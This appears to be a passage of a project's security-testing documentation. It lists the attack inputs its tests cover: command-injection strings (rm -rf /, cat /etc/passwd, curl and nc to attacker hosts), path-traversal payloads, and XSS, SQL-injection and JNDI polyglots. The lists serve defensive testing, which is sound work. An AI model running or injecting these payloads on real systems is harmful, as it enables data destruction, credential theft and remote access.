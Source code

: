 ### Security Test Coverage

- **Subprocess Security**: 15 comprehensive test methods
- **Input Validation**: 6 advanced attack scenario tests  
- **Authentication/Authorization**: Existing penetration test coverage
- **Rate Limiting**: Performance-based validation
- **XSS Prevention**: Input sanitization validation

## Attack Scenarios Covered

### 1. Command Injection Attacks
```python
# Example attack vectors tested
malicious_inputs = [
    "test; rm -rf /",
    "test`whoami`",
    "test$(cat /etc/passwd)",
    "test && curl evil.com",
    "test | nc attacker.com 4444"
]
```

### 2. Directory Traversal Attacks
```python
# Path traversal attempts
traversal_payloads = [
    "../../../etc/passwd",
    "..\\..\\..\\windows\\system32",
    "%2e%2e%2f%2e%2e%2f%2e%2e%2f",
    "....//....//....//",
    "/dev/null; cat /etc/passwd"
]
```

### 3. Polyglot Injection Attacks
```python
# Multi-context injection
polyglot_payloads = [
    "';alert(String.fromCharCode(88,83,83))//';alert(/XSS/)//\";alert('XSS');//",
    "<script>alert('XSS')</script>'; DROP TABLE users; --",
    "javascript:/*--></title></style></textarea></script></xmp>",
    "${jndi:ldap://evil.com/a}"
]
```

## Integration with Performance Testing

### Load Testing Security Integration

The security framework integrates seamlessly with the performance testing infrastructure:
